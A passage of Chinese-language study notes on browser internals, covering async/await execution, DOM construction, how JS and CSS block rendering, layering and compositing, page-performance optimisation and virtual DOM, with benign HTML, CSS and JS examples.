      在这个 `promise_` 对象创建的过程中，可以看到在 executor 函数中调用了 resolve 函数，JS 引擎会将该任务提交给微任务队列。

      然后 JS 引擎会暂停当前协程的执行，将主线程的控制权转交给父协程执行，同时会将 `promise_` 对象返回给父协程。

      主线程的控制权已经交给父协程了，这时候父协程要做的一件事是调用 `promise_.then` 来监控 promise 状态的改变。接下来继续执行父协程的流程，这里执行 console.log(3)，并打印出来 3。随后父协程将执行结束，在结束之前，会进入微任务的检查点，然后执行微任务队列，微任务队列中有 resolve(100) 的任务等待执行，执行到这里的时候，会触发 `promise_.then` 中的回调函数，如下所示：

      ```js
      promise_.then(value => {
        // 回调函数被激活后
        // 将主线程控制权交给 foo 协程，并将 value 值传给协程
      });
      ```

      该回调函数被激活以后，会将主线程的控制权交给 foo 函数的协程，并同时将 value 值传给该协程。

      foo 协程激活之后，会把刚才的 value 值赋给了变量 a，然后 foo 协程继续执行后续语句，执行完成之后，将控制权归还给父协程。以上就是 await/async 的执行流程。正是因为 async 和 await 在背后做了大量的工作，所以才能用同步的方式写出异步代码来。

## 六. 浏览器中的页面

### 6.1 JS 是如何影响 DOM 树构建的？

**什么是 DOM**
从网络传给渲染引擎的 HTML 文件字节流是无法直接被渲染引擎理解的，所以要将其转化为渲染引擎能够理解的内部结构，这个结构就是 DOM。DOM 提供了对 HTML 文档结构化的表述。在渲染引擎中，DOM 有三个层面的作用。

- 从页面的视角来看，DOM 是生成页面的基础数据结构。
- 从 JS 脚本视角来看，DOM 提供给 JS 脚本操作的接口，通过这套接口，JS 可以对 DOM 结构进行访问，从而改变文档的结构、样式和内容。
- 从安全视角来看，DOM 是一道安全防护线，一些不安全的内容在 DOM 解析阶段就被拒之门外了。

**DOM 树如何生成**
在渲染引擎内部，有一个叫 **HTML 解析器**（HTMLParser）的模块，它的职责就是负责将 HTML 字节流转换为 DOM 结构，HTML 解析器开始工作时，会默认创建了一个根为 document 的空 DOM 结构。

网络进程接收到响应头之后，会根据响应头中的 content-type 字段来判断文件的类型，比如 content-type 的值是 “text/html”，那么浏览器就会判断这是一个 HTML 类型的文件，然后为该请求选择或者创建一个渲染进程。渲染进程准备好之后，网络进程和渲染进程之间会建立一个共享数据的管道，网络进程接收到数据后就往这个管道里面放，而渲染进程则从管道的另外一端不断地读取数据，并同时将读取的数据 “喂” 给 HTML 解析器。



从图中可以看出，字节流转换为 DOM 需要三个阶段：

1. **通过分词器将字节流转换为 Token**

   V8 编译 JS 过程中的第一步是做词法分析，将 JS 先分解为一个个 Token。解析 HTML 也是一样的，需要通过分词器先将字节流转换为一个个 Token，分为 Tag Token 和文本 Token。上述 HTML 代码通过词法分析生成的 Token 如下所示：

   

   由图可以看出，Tag Token 又分 StartTag 和 EndTag，比如就是 StartTag ，就是 EndTag，分别对于图中的蓝色和红色块，文本 Token 对应的绿色块。

2. **后续的第二个和第三个阶段是同步进行的，需要将 Token 解析为 DOM 节点，并将 DOM 节点添加到 DOM 树中**

   HTML 解析器维护了一个 Token 栈结构，该 Token 栈主要用来计算节点之间的父子关系，在第一个阶段中生成的 Token 会被按照顺序压到这个栈中。具体的处理规则如下所示：

   - 如果压入到栈中的是 StartTag Token，HTML 解析器会为该 Token 创建一个 DOM 节点，然后将该节点加入到 DOM 树中，它的父节点就是栈中相邻的那个元素生成的节点。
   - 如果分词器解析出来是文本 Token，那么会生成一个文本节点，然后将该节点加入到 DOM 树中，文本 Token 是不需要压入到栈中，它的父节点就是当前栈顶 Token 所对应的 DOM 节点。
   - 如果分词器解析出来的是 EndTag 标签，比如是 EndTag div，HTML 解析器会查看 Token 栈顶的元素是否是 StarTag div，如果是，就将 StartTag div 从栈中弹出，表示该 div 元素解析完成。

   通过分词器产生的新 Token 就这样不停地压栈和出栈，整个解析过程就这样一直持续下去，直到分词器将所有字节流分词完成。

**JS 是如何影响 DOM 生成的**
下面在两段 div 中间插入了一段 JS 脚本，这段脚本的解析过程就有点不一样了：

```html
<html>
  <body>
    <div>1</div>
    <script>
      let div1 = document.getElementsByTagName('div')[0];
      div1.innerText = 'time.geekbang';
    </script>
    <div>test</div>
  </body>
</html>
```

`<script>` 标签之前，所有的解析流程还是和之前介绍的一样，但是解析到 `<script>` 标签时，渲染引擎判断这是一段脚本，此时 HTML 解析器就会暂停 DOM 的解析，因为接下来的 JS 可能要修改当前已经生成的 DOM 结构。

除了在页面中直接内嵌 JS 脚本之外，通常需要在页面中引入 JS 文件，这个解析过程就稍微复杂了些，如下面代码：

```js
<html>
  <body>
    <div>1</div>
    <script type="text/javascript" src="foo.js"></script>
    <div>test</div>
  </body>
</html>
```

整个执行流程还是一样的，执行到 JS 标签时，暂停整个 DOM 的解析，执行 JS 代码，不过这里执行 JS 时，需要先下载这段 JS 代码。这里需要重点关注下载环境，因为 **JS 文件的下载过程会阻塞 DOM 解析**，而通常下载又是非常耗时的，会受到网络环境、JS 文件大小等因素的影响。

不过 Chrome 浏览器做了很多优化，其中一个主要的优化是**预解析操作**。当渲染引擎收到字节流之后，会开启一个预解析线程，用来分析 HTML 文件中包含的 JS、CSS 等相关文件，解析到相关文件之后，预解析线程会提前下载这些文件。

再回到 DOM 解析上，引入 JS 线程会阻塞 DOM，不过也有一些相关的策略来规避，比如使用 CDN 来加速 JS 文件的加载，压缩 JS 文件的体积。另外，如果 JS 文件中没有操作 DOM 相关代码，就可以将该 JS 脚本设置为异步加载，通过 `async` 或 `defer` 来标记代码。

`async` 和 `defer` 虽然都是异步的，不过还有一些差异，使用 async 标志的脚本文件一旦加载完成，会立即执行；而使用了 defer 标记的脚本文件，需要在 DOMContentLoaded 事件之前执行。

接下来再来结合文中代码看看另外一种情况：

```html
<html>
  <head>
    <style src="theme.css"></style>
  </head>
  <body>
    <div>1</div>
    <script>
      let div1 = document.getElementsByTagName('div')[0];
      div1.innerText = 'time.geekbang'; // 需要DOM
      div1.style.color = 'red'; // 需要CSSOM
    </script>
    <div>test</div>
  </body>
</html>
```

该示例中，JS 代码出现了 `div1.style.color = 'red'` 的语句，它是用来操纵 CSSOM 的，所以在执行 JS 之前，需要先解析 JS 语句之上所有的 CSS 样式。所以如果代码里引用了外部的 CSS 文件，那么在执行 JS
之前，还需要等待外部的 CSS 文件下载完成，并解析生成 CSSOM 对象之后，才能执行 JS 脚本。

而 JS 引擎在解析 JS 之前，是不知道 JS 是否操纵了 CSSOM 的，所以渲染引擎在遇到 JS 脚本时，不管该脚本是否操纵了 CSSOM，都会执行 CSS 文件下载，解析操作，再执行 JS 脚本。所以说 JS 脚本是依赖样式表的，这又多了一个阻塞过程。

### 6.2 渲染流水线：CSS 如何影响首次加载时的白屏时间？

#### 6.2.1 渲染流水线视角下的 CSS

先结合下面代码来看看最简单的渲染流程：

```css
/* theme.css */
div {
  color: coral;
  background-color: black;
}
```

```html
<html>
  <head>
    <link href="theme.css" rel="stylesheet" />
  </head>
  <body>
    <div>geekbang com</div>
  </body>
</html>
```


下面结合上图来分析这个页面文件的渲染流水线：

首先是发起主页面的请求，这个发起请求方可能是渲染进程，也有可能是浏览器进程，发起的请求被送到网络进程中去执行。网络进程接收到返回的 HTML 数据之后，将其发送给渲染进程，渲染进程会解析 HTML 数据并构建 DOM。

> **注意**：请求 HTML 数据和构建 DOM 中间有一段空闲时间，这个空闲时间有可能成为页面渲染的瓶颈。

当渲染进程接收 HTML 文件字节流时，会先开启一个预解析线程，如果遇到 JS 文件或者 CSS 文件，那么预解析线程会提前下载这些数据。对于上面的代码，预解析线程会解析出来一个外部的 theme.css 文件，并发起 theme.css 的下载。

> **注意**：在 DOM 构建结束之后、theme.css 文件还未下载完成的这段时间内，渲染流水线无事可做，因为下一步是合成布局树，而合成布局树需要 CSSOM 和 DOM，所以这里需要等待 CSS 加载结束并解析成 CSSOM。

#### 6.2.2 渲染流水线为什么需要 CSSOM 呢？

和 HTML 一样，渲染引擎也是无法直接理解 CSS 文件内容的，所以需要将其解析成渲染引擎能够理解的结构，这个结构就是 CSSOM。和 DOM 一样，CSSOM 也具有两个作用：

- 提供给 JS 操作样式表的能力
- 为布局树的合成提供基础的样式信息。

这个 CSSOM 体现在 DOM 中就是 document.styleSheets。

有了 DOM 和 CSSOM，接下来就可以合成布局树了。布局树的结构基本上就是复制 DOM 树的结构，不同之处在于 DOM 树中那些不需要显示的元素会被过滤掉，如 display:none 属性的元素、head 标签、script 标签等。复制好基本的布局树结构之后，渲染引擎会为对应的 DOM 元素选择对应的样式信息，这个过程就是**样式计算**。样式计算完成之后，渲染引擎还需要计算布局树中每个元素对应的几何位置，这个过程就是**计算布局**。通过样式计算和计算布局就完成了最终布局树的构建。再之后，就该进行后续的绘制操作了。这就是在渲染过程中涉及到 CSS 的一些主要流程。

再来看看稍微复杂一点的场景，看下面这段 HTML 代码：

```css
/* theme.css */
div {
  color: coral;
  background-color: black;
}
```

```html
<html>
  <head>
    <link href="theme.css" rel="stylesheet" />
  </head>
  <body>
    <div>geekbang com</div>
    <script>
      console.log('time.geekbang.org');
    </script>
    <div>geekbang com</div>
  </body>
</html>
```

这段代码在开头代码的基础之上做了一点小修改，在 body 标签内部加了一个简单的 JS。有了 JS，渲染流水线就有点不一样了，可以参考下面这张渲染流水线图：


结合这张图来分析含有外部 CSS 文件和 JS 代码的页面渲染流水线，如果遇到了 JS 脚本，那么需要先暂停 DOM 解析去执行 JS，因为 JS 有可能会修改当前状态下的 DOM。不过在执行 JS 脚本之前，如果页面中包含了外部 CSS 文件的引用，或者通过 style 标签内置了 CSS 内容，那么渲染引擎还需要将这些内容转换为 CSSOM，因为 JS 有修改 CSSOM 的能力，所以在执行 JS 之前，还需要依赖 CSSOM。也就是说 CSS 在部分情况下也会阻塞 DOM 的生成。

再来看看更加复杂一点的情况，如果在 body 中被包含的是 JS 外部引用文件，Demo 代码如下所示：

```css
/* theme.css */
div {
  color: coral;
  background-color: black;
}
```

```js
// foo.js
console.log('time.geekbang.org');
```

```html
<html>
  <head>
    <link href="theme.css" rel="stylesheet" />
  </head>
  <body>
    <div>geekbang com</div>
    <script src="foo.js"></script>
    <div>geekbang com</div>
  </body>
</html>
```

从上面代码可以看出来，HTML 文件中包含了 CSS 的外部引用和 JS 外部文件，它们的渲染流水线可参考下图：


从图中可以看出来，在接收到 HTML 数据之后的预解析过程中，HTML 预解析器识别出来了有 CSS 文件和 JS 文件需要下载，然后就同时发起这两个文件的下载请求。

> **注意**：这两个文件的下载过程是重叠的，所以下载时间按照最久的那个文件来算。

后面的流水线就和前面是一样的了，不管 CSS 文件和 JS 文件谁先到达，都要先等到 CSS 文件下载完成并生成 CSSOM，然后再执行 JS 脚本，最后再继续构建 DOM，构建布局树，绘制页面。

#### 6.2.3 影响页面展示的因素以及优化策略

**渲染流水线影响到了首次页面展示的速度，而首次页面展示的速度又直接影响到了用户体验**，所以分析渲染流水线的目的就是为了找出一些影响到首屏展示的因素，然后再基于这些因素做一些针对性的调整。

那么接下来就来看看从发起 URL 请求开始，到首次显示页面的内容，在视觉上经历的三个阶段：

1. 第一个阶段，等请求发出去之后，到提交数据阶段，这时页面展示出来的还是之前页面的内容。关于提交数据可以参考[导航流程](#24-导航流程)。

2. 第二个阶段，提交数据之后渲染进程会创建一个空白页面，通常把这段时间称为**解析白屏**，并等待 CSS 文件和 JS 文件的加载完成，生成 CSSOM 和 DOM，然后合成布局树，最后还要经过一系列的步骤准备首次渲染。

3. 第三个阶段，等首次渲染完成之后，就开始进入完整页面的生成阶段了，然后页面会一点点被绘制出来。

影响第一个阶段的因素主要是网络或者是服务器处理这块儿。至于第三个阶段，会在下一节中分析。

现在重点关注第二个阶段，这个阶段的主要问题是白屏时间，如果白屏时间过久，就会影响到用户体验。为了缩短白屏时间，来挨个分析这个阶段的主要任务，包括了解析 HTML、下载 CSS、下载 JS、生成 CSSOM、执行 JS、生成布局树、绘制页面一系列操作。

通常情况下的瓶颈主要体现在下载 CSS 文件、下载 JS 文件和执行 JS。所以要想缩短白屏时长，可以有以下策略：

- 通过内联 JS、内联 CSS 来移除这两种类型的文件下载，这样获取到 HTML 文件之后就可以直接开始渲染流程了。
- 但并不是所有的场合都适合内联，那么还可以尽量减少文件大小，比如通过 webpack 等工具移除一些不必要的注释，并压缩 JS 文件。
- 还可以将一些不需要在解析 HTML 阶段使用的 JS 标记上 async 或者 defer。
- 对于大的 CSS 文件，可以通过媒体查询属性，将其拆分为多个不同用途的 CSS 文件，这样只有在特定的场景下才会加载特定的 CSS 文件。

通过以上策略就能缩短白屏展示的时长了，不过在实际项目中，总是存在各种各样的情况，这些策略并不能随心所欲地去引用，所以还需要结合实际情况来调整最佳方案。

### 6.3 分层和合成机制

**显示器是怎么显示图像的**
每个显示器都有固定的刷新频率，通常是 60HZ，也就是每秒更新 60 张图片，更新的图片都来自于显卡中一个叫**前缓冲区**的地方，显示器所做的任务很简单，就是每秒固定读取 60 次前缓冲区中的图像，并将读取的图像显示到显示器上。

显卡在这里的职责就是合成新的图像，并将图像保存到**后缓冲区**中，一旦显卡把合成的图像写到后缓冲区，系统就会让后缓冲区和前缓冲区互换，这样就能保证显示器能读取到最新显卡合成的图像。通常情况下，显卡的更新频率和显示器的刷新频率是一致的。但有时候，在一些复杂的场景中，显卡处理一张图片的速度会变慢，这样就会造成视觉上的卡顿。

**帧 VS 帧率**
了解了显示器是怎么显示图像的之后，下面再来明确下帧和帧率的概念，因为这是后续一切分析的基础。

当通过滚动条滚动页面，或者通过手势缩放页面时，屏幕上就会产生动画的效果。之所以能感觉到有动画的效果，是因为在滚动或者缩放操作时，渲染引擎会通过渲染流水线生成新的图片，并发送到显卡的后缓冲区。大多数设备屏幕的更新频率是 60 次 / 秒，这也就意味着正常情况下要实现流畅的动画效果，渲染引擎需要每秒更新 60 张图片到显卡的后缓冲区。

把渲染流水线生成的每一副图片称为一帧，把渲染流水线每秒更新了多少帧称为帧率，比如滚动过程中 1 秒更新了 60 帧，那么帧率就是 60Hz（或者 60FPS）。由于用户很容易观察到那些丢失的帧，如果在一次动画过程中，渲染引擎生成某些帧的时间过久，那么用户就会感受到卡顿，这会给用户造成非常不好的印象。

要解决卡顿问题，就要解决每帧生成时间过久的问题，为此 Chrome 对浏览器渲染方式做了大量的工作，其中最卓有成效的策略就是引入了分层和合成机制。

**如何生成一帧图像**
一帧的生成方式，有以下三种方式。这三种方式的渲染路径是不同的，通常渲染路径越长，生成图像花费的时间就越多。

- **重排**：它需要重新根据 CSSOM 和 DOM 来计算布局树，这样生成一幅图片时，会让整个渲染流水线的每个阶段都执行一遍，如果布局复杂的话，就很难保证渲染的效率了。

- **重绘**：因为没有了重新布局的阶段，操作效率稍微高点，但是依然需要重新计算绘制信息，并触发绘制操作之后的一系列操作。

- **合成**：相较于重排和重绘，合成操作的路径就显得非常短了，并不需要触发布局和绘制两个阶段，如果采用了 GPU，那么合成的效率会非常高。

Chrome 中的合成技术，可以用三个词来概括总结：**分层**、**分块**和**合成**。

#### 6.3.1 分层和合成

通常页面的组成是非常复杂的，有的页面里要实现一些复杂的动画效果，比如点击菜单时弹出菜单的动画特效，滚动鼠标滚轮时页面滚动的动画效果。如果没有采用分层机制，从布局树直接生成目标图片的话，那么每次页面有很小的变化时，都会触发重排或者重绘机制，这种 “牵一发而动全身” 的绘制策略会严重影响页面的渲染效率。**为了提升每帧的渲染效率，Chrome 引入了分层和合成的机制**。

可以把一张网页想象成是由很多个图片叠加在一起的，每个图片就对应一个图层，Chrome 合成器最终将这些图层合成了用于显示页面的图片。如果熟悉 PhotoShop 的话，就能很好地理解这个过程了，PhotoShop 中一个项目是由很多图层构成的，每个图层都可以是一张单独图片，可以设置透明度、边框阴影，可以旋转或者设置图层的上下位置，将这些图层叠加在一起后，就能呈现出最终的图片了。在这个过程中，将素材分解为多个图层的操作就称为**分层**，最后将这些图层合并到一起的操作就称为**合成**。所以，分层和合成通常是一起使用的。

考虑到一个页面被划分为两个层，当进行到下一帧的渲染时，上面的一帧可能需要实现某些变换，如平移、旋转、缩放、阴影或者 Alpha 渐变，这时候合成器只需要将两个层进行相应的变化操作就可以了，显卡处理这些操作是非常快的，所以这个**合成过程时间非常短**。

在 Chrome 的渲染流水线中，**分层体现在生成布局树之后**，渲染引擎会根据布局树的特点将其转换为层树（Layer Tree），层树是渲染流水线后续流程的基础结构。层树中的每个节点都对应着一个图层，下一步的绘制阶段就依赖于层树中的节点。绘制阶段其实并不是真正地绘出图片，而是将绘制指令组合成一个列表，比如一个图层要设置的背景为黑色，并且还要在中间画一个圆形，那么绘制过程会生成|Paint BackGroundColor:Black | Paint Circle|这样的绘制指令列表，绘制过程就完成了。

有了绘制列表之后，就需要进入光栅化阶段了，**光栅化就是按照绘制列表中的指令生成图片。每一个图层都对应一张图片，合成线程有了这些图片之后，会将这些图片合成为 “一张” 图片，并最终将生成的图片发送到后缓冲区**。这就是一个大致的分层、合成流程。

> **注意**：合成操作是在合成线程上完成的，这也就意味着在执行合成操作时，是不会影响到主线程执行的。

#### 6.3.2 分块

如果说分层是从宏观上提升了渲染效率，那么分块则是从微观层面提升了渲染效率。

通常情况下，页面的内容都要比屏幕大得多，显示一个页面时，如果等待所有的图层都生成完毕，再进行合成的话，会产生一些不必要的开销，也会让合成图片的时间变得更久。因此，合成线程会将每个图层分割为大小固定的图块，然后优先绘制靠近视口的图块，这样就可以大大加速页面的显示速度。不过有时候， 即使只绘制那些优先级最高的图块，也要耗费不少的时间，因为涉及到一个很关键的因素——**纹理上传**，这是因为从计算机内存上传到 GPU 内存的操作会比较慢。

为了解决这个问题，Chrome 又采取了一个策略：**在首次合成图块的时候使用一个低分辨率的图片**。比如可以是正常分辨率的一半，分辨率减少一半，纹理就减少了四分之三。在首次显示页面内容的时候，将这个低分辨率的图片显示出来，然后合成器继续绘制正常比例的网页内容，当正常比例的网页内容绘制完成后，再替换掉当前显示的低分辨率内容。这种方式尽管会让用户在开始时看到的是低分辨率的内容，但是也比用户在开始时什么都看不到要好。

#### 6.3.3 如何利用分层技术优化代码

在写 Web 应用的时候，可能经常需要对某个元素做几何形状变换、透明度变换或者一些缩放操作，如果使用 JS 来写这些效果，会牵涉到整个渲染流水线，所以 JS 的绘制效率会非常低下。这时你可以使用 will-change 来告诉渲染引擎会对该元素做一些特效变换，CSS 代码如下：

```css
.box {
  will-change: transform, opacity;
}
```

这段代码就是提前告诉渲染引擎 box 元素将要做几何变换和透明度变换操作，这时候渲染引擎会将该元素单独实现一帧，等这些变换发生时，渲染引擎会通过合成线程直接去处理变换，这些变换并没有涉及到主线程，这样就大大提升了渲染的效率。这也是 CSS 动画比 JS 动画高效的原因。

所以，如果涉及到一些可以使用合成线程来处理 CSS 特效或者动画的情况，就尽量使用 will-change 来提前告诉渲染引擎，让它为该元素准备独立的层。但是凡事都有两面性，用好这个属性不容易：

- **不要将 will-change 应用到太多元素上**：浏览器已经尽力尝试去优化一切可以优化的东西了。有一些更强力的优化，如果与 will-change 结合在一起的话，有可能会消耗很多机器资源，因为从层树开始，后续每个阶段都会多一个层结构，这些都需要额外的内存。

- **有节制地使用**：通常，当元素恢复到初始状态时，浏览器会丢弃掉之前做的优化工作。但是如果直接在样式表中显式声明了 will-change 属性，则表示目标元素可能会经常变化，浏览器会将优化工作保存得比之前更久。所以**最佳实践是当元素变化之前和之后通过脚本来切换 will-change 的值**。

- **不要过早应用 will-change 优化**：如果页面在性能方面没什么问题，则不要添加 will-change 属性来榨取一丁点的速度。 will-change 的设计初衷是作为*最后的优化手段*，用来尝试解决现有的性能问题。它不应该被用来预防性能问题。过度使用 will-change 会导致大量的内存占用，并会导致更复杂的渲染过程，因为浏览器会试图准备可能存在的变化过程。这会导致更严重的性能问题。

- **给它足够的工作时间**：这个属性是用来让页面开发者告知浏览器哪些属性可能会变化的。然后浏览器可以选择在变化发生前提前去做一些优化工作。所以给浏览器一点时间去真正做这些优化工作是非常重要的。使用时需要尝试去找到一些方法提前一定时间获知元素可能发生的变化，然后为它加上 will-change 属性。

### 6.4 页面性能

通常一个页面有三个阶段：

- **加载阶段**：是指从发出请求到渲染出完整页面的过程，影响到这个阶段的主要因素有网络和 JS。
- **交互阶段**：主要是从页面加载完成到用户交互的整合过程，影响到这个阶段的主要因素是 JS。
- **关闭阶段**：主要是用户发出关闭指令后页面所做的一些清理操作。

#### 6.4.1 加载阶段



观察上面这个渲染流水线，发现并非所有的资源都会阻塞页面的首次绘制，比如图片、音频、视频等文件就不会阻塞页面的首次渲染；而 JS、首次请求的 HTML 资源文件、CSS 文件是会阻塞首次渲染的，因为在构建 DOM 的过程中需要 HTML 和 JS 文件，在构造渲染树的过程中需要用到 CSS 文件。

把**这些能阻塞网页首次渲染的资源称为关键资源**。基于关键资源，可以继续细化出来三个影响页面首次渲染的核心因素：

1. **关键资源个数**：关键资源个数越多，首次页面的加载时间就会越长。
2. **关键资源大小**：通常情况下，所有关键资源的内容越小，其整个资源的下载时间也就越短，那么阻塞渲染的时间也就越短。
3. **请求关键资源需要多少个 RTT（Round Trip Time）**：当使用 [TCP 协议](#22-tcp-协议)传输一个文件时，比如这个文件大小是 0.1M，由于 TCP 的特性，这个数据并不是一次传输到服务端的，而是需要拆分成一个个数据包来回多次进行传输的。**RTT 就是这里的往返时延。它是网络中一个重要的性能指标，表示从发送端发送数据开始，到发送端收到来自接收端的确认，总共经历的时延**。通常 1 个 HTTP 的数据包在 14KB 左右，所以 1 个 0.1M 的页面就需要拆分成 8 个包来传输了，也就是说需要 8 个 RTT。

总的优化原则就是减少关键资源个数，降低关键资源大小，降低关键资源的 RTT 次数。

- **减少关键资源的个数**：一种方式是可以将 JS 和 CSS 改成内联的形式，比如上图的 JS 和 CSS，若都改成内联模式，那么关键资源的个数就由 3 个减少到了 1 个。另一种方式，如果 JS 代码没有 DOM 或者 CSSOM 的操作，则可以改成 async 或者 defer 属性；同样对于 CSS，如果不是在构建页面之前加载的，则可以添加媒体取消阻止显现的标志。当 JS 标签加上了 async 或者 defer、CSSlink 属性之前加上了取消阻止显现的标志后，它们就变成了非关键资源了。

- **减少关键资源的大小**：可以压缩 CSS 和 JS 资源，移除 HTML、CSS、JS 文件中一些注释内容，也可以通过前面讲的取消 CSS 或者 JS 中关键资源的方式。

- **减少关键资源 RTT 的次数**：可以通过减少关键资源的个数和减少关键资源的大小搭配来实现。除此之外，还可以使用 CDN 来减少每次 RTT 时长。

#### 6.4.2 交互阶段

交互阶段的优化，其实就是优化渲染进程渲染帧的速度，因为在交互阶段，帧的渲染速度决定了交互的流畅度。

和加载阶段的渲染流水线有一些不同的地方是，在交互阶段没有了加载关键资源和构建 DOM、CSSOM 流程，通常是由 JS 触发交互动画的。


结合上图，来看下交互阶段是如何生成一个帧的。大部分情况下，生成一个新的帧都是由 JS 通过修改 DOM 或者 CSSOM 来触发的。还有另外一部分帧是由 CSS 来触发的。

**一个大的原则就是让单个帧的生成速度变快**。所以，下面就来分析下在交互阶段渲染流水线中有哪些因素影响了帧的生成速度以及如何去优化：

1. **减少 JS 脚本执行时间**

   有时 JS 函数的一次执行时间可能有几百毫秒，这就严重霸占了主线程执行其他渲染任务的时间。针对这种情况可以采用以下两种策略：

   - 一种是将一次执行的函数分解为多个任务，使得每次的执行时间不要过久。

   - 另一种是采用 Web Workers。可以把 Web Workers 当作主线程之外的一个线程，在 Web Workers 中是可以执行 JS 脚本的，不过 Web Workers 中没有 DOM、CSSOM 环境，这意味着在 Web Workers 中是无法通过 JS 来访问 DOM 的，所以可以把一些和 DOM 操作无关且耗时的任务放到 Web Workers 中去执行。

   总之，在交互阶段，对 JS 脚本总的原则就是不要一次霸占太久主线程。

2. **避免强制同步布局**

   在介绍强制同步布局之前，先来看正常情况下的布局操作。通过 DOM 接口执行添加元素或者删除元素等操作后，是需要重新计算样式和布局的，不过正常情况下这些操作都是在另外的任务中异步完成的，这样做是为了避免当前的任务占用太长的主线程时间。可以参考下面的代码：

   ```html
   <html>
     <body>
       <div id="main_div">
         <li id="time_li">time</li>
         <li>geekbang</li>
       </div>

       <p id="demo">正常布局</p>
       <button onclick="foo()">添加新元素</button>

       <script>
         function foo() {
           let main_div = document.getElementById('main_div');
           let new_node = document.createElement('li');
           let textnode = document.createTextNode('time.geekbang');
           new_node.appendChild(textnode);
           document.getElementById('main_div').appendChild(new_node);
         }
       </script>
     </body>
   </html>
   ```

   对于上面这段代码，可以使用 Performance 工具来记录添加元素的过程，如下图所示：

   

   从图中可以看出来，执行 JS 添加元素是在一个任务中执行的，重新计算样式布局是在另外一个任务中执行，这就是正常情况下的布局操作。而**强制同步布局是指 JS 强制将计算样式和布局操作提前到当前的任务中**。可以对上面的代码做了一点修改，让它变成强制同步布局：

   ```js
   function foo() {
     let main_div = document.getElementById('main_div');
     let new_node = document.createElement('li');
     let textnode = document.createTextNode('time.geekbang');
     new_node.appendChild(textnode);
     document.getElementById('main_div').appendChild(new_node);
     // 由于要获取到 offsetHeight，但是此时的 offsetHeight 还是老的数据，所以需要立即执行布局操作
     console.log(main_div.offsetHeight);
   }
   ```

   将新的元素添加到 DOM 之后，又调用了 main_div.offsetHeight 来获取新 main_div 的高度信息。如果要获取到 main_div 的高度，就需要重新布局，所以这里在获取到 main_div 的高度之前，JS 还需要强制让渲染引擎默认执行一次布局操作。把这个操作称为强制同步布局。同样，可以看下面通过 Performance 记录的任务状态：

   

   从上图可以看出来，计算样式和布局都是在当前脚本执行过程中触发的，这就是强制同步布局。为了避免强制同步布局，可以调整策略，在修改 DOM 之前查询相关值。

3. **避免布局抖动**

   布局抖动，是指在一次 JS 执行过程中，多次执行强制布局和抖动操作。可以看下面的代码：

   ```js
   function foo() {
     let time_li = document.getElementById('time_li');
     for (let i = 0; i < 100; i++) {
       let main_div = document.getElementById('main_div');
       let new_node = document.createElement('li');
       let textnode = document.createTextNode('time.geekbang');
       new_node.appendChild(textnode);
       new_node.offsetHeight = time_li.offsetHeight;
       document.getElementById('main_div').appendChild(new_node);
     }
   }
   ```

   在一个 for 循环语句里面不断读取属性值，每次读取属性值之前都要进行计算样式和布局。执行代码之后，使用 Performance 记录的状态如下所示：

   

   从上图可以看出，在 foo 函数内部重复执行计算样式和布局，这会大大影响当前函数的执行效率。这种情况的避免方式和强制同步布局一样，都是尽量不要在修改 DOM 结构时再去查询一些相关值。

4. **合理利用 CSS 合成动画**

   合成动画是直接在合成线程上执行的，这和在主线程上执行的布局、绘制等操作不同，如果主线程被 JS 或者一些布局任务占用，CSS 动画依然能继续执行。所以要尽量利用好 CSS 合成动画，如果能让 CSS 处理动画，就尽量交给 CSS 来操作。另外，如果能提前知道对某个元素执行动画操作，那就最好将其标记为 [will-change](#633-如何利用分层技术优化代码)。

5. **避免频繁的垃圾回收**

   JS 使用了自动垃圾回收机制，如果在一些函数中频繁创建临时对象，那么垃圾回收器也会频繁地去执行垃圾回收策略。这样当垃圾回收操作发生时，就会占用主线程，从而影响到其他任务的执行，严重的话还会让用户产生掉帧、不流畅的感觉。所以要尽量避免产生那些临时垃圾数据。可以尽可能优化储存结构，尽可能避免小颗粒对象的产生。

### 6.5 虚拟 DOM

#### 6.5.1 DOM 的缺陷

通过 JS 操纵 DOM 是会影响到整个渲染流水线的。另外，DOM 还提供了一组 JS 接口用来遍历或者修改节点，这套接口包含了 getElementById、removeChild、appendChild 等方法。调用该 API 之后会引发一系列的连锁反应。首先渲染引擎会将 node 节点添加到 body 节点之上，然后触发样式计算、布局、绘制、栅格化、合成等任务，这一过程称为**重排**。除了重排之外，还有可能引起重绘或者合成操作，形象地理解就是 “牵一发而动全身”。另外，对于 DOM 的不当操作还有可能引发强制同步布局和布局抖动的问题，这些操作都会大大降低渲染效率。因此，对于 DOM 的操作时刻都需要非常小心谨慎。

当然，对于简单的页面来说，其 DOM 结构还是比较简单的，所以以上这些操作 DOM 的问题并不会对用户体验产生太多影响。但是对于一些复杂的页面或者目前使用非常多的单页应用来说，其 DOM 结构是非常复杂的，而且还需要不断地去修改 DOM 树，每次操作 DOM 渲染引擎都需要进行重排、重绘或者合成等操作，因为 DOM 结构复杂，所生成的页面结构也会很复杂，对于这些复杂的页面，执行一次重排或者重绘操作都是非常耗时的，这就带来了真正的性能问题。所以需要有一种方式来减少 JS 对 DOM 的操作，这时候虚拟 DOM 就上场了。

#### 6.5.2 虚拟 DOM 执行流程

虚拟 DOM 解决的事情：

- 将页面改变的内容应用到虚拟 DOM 上，而不是直接应用到 DOM 上。
- 变化被应用到虚拟 DOM 上时，虚拟 DOM 并不急着去渲染页面，而仅仅是调整虚拟 DOM 的内部状态，这样操作虚拟 DOM 的代价就变得非常轻了。
- 在虚拟 DOM 收集到足够的改变时，再把这些变化一次性应用到真实的 DOM 上。


结合这张图来分析下虚拟 DOM 到底怎么运行的：

- **创建阶段**：首先依据 JSX 和基础数据创建出来虚拟 DOM，它反映了真实的 DOM 树的结构。然后由虚拟 DOM 树创建出真实 DOM 树，真实的 DOM 树生成完后，再触发渲染流水线往屏幕输出页面。

- **更新阶段**：如果数据发生了改变，那么就需要根据新的数据创建一个新的虚拟 DOM 树；然后比较两个树，找出变化的地方，并把变化的地方一次性更新到真实的 DOM 树上；最后渲染引擎更新渲染流水线，并生成新的页面。

这里重点关注下比较过程，最开始的时候，比较两个虚拟 DOM 的过程是在一个递归函数里执行的，其核心算法是 reconciliation。通常情况下，这个比较过程执行得很快，不过当虚拟 DOM 比较复杂的时候，执行比较函数就有可能占据主线程比较久的时间，这样就会导致其他任务的等待，造成页面卡顿。为了解决这个问题，React 团队重写了 reconciliation 算法，新的算法称为 Fiber reconciler，之前老的算法称为 Stack reconciler。

